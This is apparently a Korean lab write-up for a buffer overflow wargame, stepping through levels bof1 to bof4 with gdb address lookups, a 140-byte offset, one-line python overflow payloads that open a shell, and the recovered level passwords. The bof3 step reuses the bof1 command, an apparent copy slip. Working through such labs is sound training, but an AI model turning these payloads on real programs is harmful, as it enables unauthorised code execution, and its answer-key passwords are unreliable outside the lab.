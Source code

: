 # Assignment

```shell
 $ docker run -it --privileged ccss17/bof
 $ cd crackme
```

> ID는 bof1, Password는 °ࡇ° ? ? ?

<br/>

### 4 - bof1

```shell
 $ vi bof1.c
```

![04-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-bof1_code.png?raw=true)

bof1.c의 소스 코드를 확인한다.

![04-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-buffer_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![04-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![04-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![04-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof2.pw를 읽어준다.

> bof2의 비밀번호는 e31a76fc 이다.

<br/>
<br/>

### 5 - bof2

```shell
 $ vi bof2.c
```

![05-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-bof2_code.png?raw=true)

bof2.c의 소스 코드를 확인한다.

![05-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-buf_address.png?raw=true)

strcpy를 찾아서 buf의 주소를 알아낸다.

![05-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-innocent_address.png?raw=true)

compare 함수 부분에 가서 innocent의 주소를 알아낸다.

![05-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof2 `python -c "print 'x'*140+'aaaa'"`cat
```

![05-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof3.pw를 읽어준다.

> bof3의 비밀번호는 78ac9531 이다.

<br/>
<br/>

### 6 - bof3

```shell
 $ vi bof3.c
```

![06-bof3_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-bof3_code.png?raw=true)

bof3.c의 소스 코드를 확인한다.

![06-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![06-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![06-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![06-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-pw.png?raw=true)

쉘을 열어주고,
쉘 권한으로 bof4.pw를 읽어준다.

> bof4의 비밀번호는 64869b0d 이다.

<br/>
<br/>

### 7 - bof4

```shell
 $ vi bof4.c
```

![07-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-bof4_code.png?raw=true)

bof4.c의 소스 코드를 확인한다.

![07-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![07-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![07-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof4 `python -c "print 'x'*140+'\x78\x56\x34\x12'"`
```

![07-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof5.pw를 읽어준다.

> bof5의 비밀번호는 c75cfe84 이다.
